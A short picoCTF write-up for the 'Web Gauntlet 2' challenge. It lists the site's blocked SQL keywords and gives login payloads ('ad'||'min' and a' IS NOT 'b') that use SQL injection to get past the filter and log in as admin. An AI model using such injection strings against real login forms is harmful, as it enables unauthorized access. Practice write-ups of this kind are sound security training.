 # Web Gauntlet 2
AUTHOR : MADSTACKS
DESCRIPTION : This website looks familiar... Log in as admin Site: <br>
http://mercury.picoctf.net:65261/ <br>
Filter: http://mercury.picoctf.net:65261/filter.php <br>

# Solution
Only 1 Round <br>
Filter : `or and true false union like = > < ; -- /* */ admin` <br>
Username = `ad'||'min` <br>
Password = `a' IS NOT 'b` <br>
Query : `SELECT username, password FROM users WHERE username='ad'||'min'' AND password='a' IS NOT 'b'` <br>

Flag can be found in `filter.php` after solving the first round

